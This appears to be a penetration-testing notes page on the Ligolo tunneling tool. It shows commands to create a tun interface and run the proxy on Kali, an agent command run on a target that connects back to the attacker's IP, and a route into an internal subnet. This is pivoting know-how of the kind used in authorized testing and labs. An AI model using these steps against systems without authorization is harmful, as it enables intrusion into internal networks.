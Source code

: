 # Ligolo

### Set up on kali:

{% code overflow="wrap" %}
```shell
# Adds a new tun interface to our machine.
sudo ip tuntap add user kali mode tun ligolo

# Enables the new interface.
sudo ip link set ligolo up
```
{% endcode %}

Run proxy on kali:

{% code overflow="wrap" %}
```sh
# With the -selfcert flag the tool dynamically 
# generates self-signed certificates.

./proxy -selfcert
```
{% endcode %}

### Set up on target

{% code overflow="wrap" %}
```powershell
./agent -connect {kali_ip}:11601 -ignore-cert
```
{% endcode %}

### Add route

```sh
sudo ip route add 10.10.138.0/24 dev ligolo
```

Confirm route was added:

```shell
ip route list
```

Start tunnel (in ligolo interface)

```
start
```

### Commands in ligolo session

List sessions:

```
session
```



